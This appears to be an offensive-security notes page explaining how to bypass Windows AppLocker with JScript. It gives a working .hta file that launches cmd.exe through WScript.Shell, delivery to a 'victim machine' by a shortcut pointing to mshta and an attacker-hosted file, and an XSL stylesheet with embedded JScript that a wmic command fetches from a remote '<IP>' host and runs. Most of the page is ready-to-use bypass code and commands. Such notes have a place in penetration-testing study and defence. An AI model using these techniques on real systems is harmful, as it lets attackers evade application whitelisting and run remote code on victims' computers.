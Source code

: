 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Applocker_Bypass_JScript
---
```



<span style="font-size: 35px; color:red"><b>Applocker Bypass with JScript</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>MSHTA</b></span>
We'll abuse <span style="color:red">Microsoft HTML Applications</span> (MSHTA) running an .hta file.

Simple hta file:
```hta
<html> 
<head> 
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("cmd.exe");
</script>
</head> 
<body>
<script language="JScript">
self.close();
</script>
</body> 
</html>
```

To run it:
```shell
mshta C:\Tools\test.hta
```

To deliver it, you can createa shortcut. To create the shortcut file, we'll right-click the desktop on the Windows 10 victim machine and navigate to _New_ -> _Shortcut_. In the new window, we'll enter the MSHTA executable path <span style="color:red">(C:\Windows\System32\mshta.exe)</span> followed by the URL of the .hta file on our Kali machine

---

### XSL Transform
The process of XSLT uses <span style="color:red">Extensible Stylesheet Language</span> (.xsl) documents to transform an XML document into a different format such as <span style="color:red">XHTML</span>.
XSL file (test.xsl):
```xml
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
		<![CDATA[
			var r = new ActiveXObject("WScript.Shell"); 'payload here
			r.Run("cmd.exe");
		]]>
	</ms:script>
</stylesheet>
```

Download and run like so:
```shell
wmic process get brief /format:"http://<IP>/test.xsl"
```
